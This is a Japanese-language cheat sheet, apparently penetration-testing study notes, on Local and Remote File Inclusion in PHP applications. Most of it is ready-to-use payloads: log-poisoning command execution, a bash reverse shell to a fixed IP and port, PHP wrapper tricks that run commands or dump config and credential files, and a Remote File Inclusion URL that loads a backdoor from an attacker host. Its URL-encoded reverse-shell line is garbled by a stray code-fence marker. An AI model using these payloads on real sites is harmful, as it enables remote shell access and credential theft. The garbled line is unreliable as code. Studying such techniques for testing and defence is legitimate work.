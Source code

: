 ## Local File Inclusion (LFI) & Remote File Inclusion (RFI)

### 概要

**Local File Inclusion (LFI)** は、攻撃者がサーバー上のファイルを含めることで、リモートからシステムの情報を取得したり、コマンドを実行したりする攻撃手法です。  
一方、**Remote File Inclusion (RFI)** は、リモートのファイルをサーバーに含めて、任意のコードを実行する攻撃手法です。

### LFIとRFIの違い

- LFIはサーバー上のローカルファイルをインクルードします。
- RFIはリモートからのファイルをインクルードします。

---

## Local File Inclusion (LFI)

LFIは、ディレクトリトラバーサル攻撃と似ていますが、リモートからコマンドを実行できる点が異なります。

### コマンド実行の例

以下のURLを使用して、リモートでコマンドを実行します：

- http
```bash
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami
```
上記の例では、whoamiコマンドをcmdパラメータに渡して実行しています。
- リバースシェルの実行
リバースシェルを実行するには、次のコマンドをcmdパラメータに渡します：

```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
- URLエンコードされたリバースシェル
次のように、リバースシェルコマンドをURLエンコードして送信します：
```bash
%20-c%20%22```bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

- PHP Wrapperを利用したLFI
PHPのラッパーを使用して、ファイルの内容をリモートから取得します：
```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
curl "http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php"
```
## Remote File Inclusion (RFI)
RFIは、リモートからファイルをインクルードし、コードを実行する攻撃手法です。

RFIの手順
PHPシェルを用意します。
ファイルサーバーをホストします。
次のように、RFIを実行します：
- http
```bash
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
```
PHPのリバースシェルをホストし、シェルを取得することもできます。
## LFIの脆弱性が見つかった場合
LFIの脆弱性が見つかった場合、以下のURLで認証情報を取得できることがあります：

- http
```bash
http://192.168.0.104/?page=php://filter/read=convert.base64-encode/resource=config
```
この例では、configファイルの内容がBase64でエンコードされて出力されることがあります。
### 参考サイト
- Qiita - LFI攻撃
- Hacking Articles - Local File Inclusionの包括的ガイド
- Medium - Local File Inclusion (LFI) Web Application Penetration Testing
